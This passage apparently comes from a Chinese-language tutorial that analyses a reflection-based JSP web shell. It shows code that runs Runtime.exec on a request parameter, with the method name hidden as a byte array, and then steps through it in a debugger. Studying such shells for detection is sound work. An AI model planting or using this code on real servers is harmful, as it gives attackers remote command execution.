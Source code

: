 ```jsp

        // 反射调用Runtime.getRuntime().exec(xxx)方法
        Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});

        // 反射获取Process类的getInputStream方法
        Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
        m.setAccessible(true);

        // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
        Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
        String result = s.hasNext() ? s.next() : "";

        // 输出命令执行结果
        out.println(result);

    } catch (Exception e) {
        e.printStackTrace();
    }


%>

```



能正常执行：

![成功执行命令](http://image.xpshuai.cn/img/image-20220112172110896.png)





## 简要分析

设置断点，开启debug，浏览器访问地址传参

可以看到str参数值已经变成`whoami`

且rt的值变成`java.lang.Runtime`

![debug1](http://image.xpshuai.cn/img/image-20220112173734115.png)



继续往下走，第22行通过forName()方法来获取到了该class对象

![debug2](http://image.xpshuai.cn/img/image-20220112173917446.png)



继续，下面第24行是通过反射获取类中方法getMethod的方式获取到`getRuntime()`方法

![debug3](http://image.xpshuai.cn/img/image-20220112174841674.png)
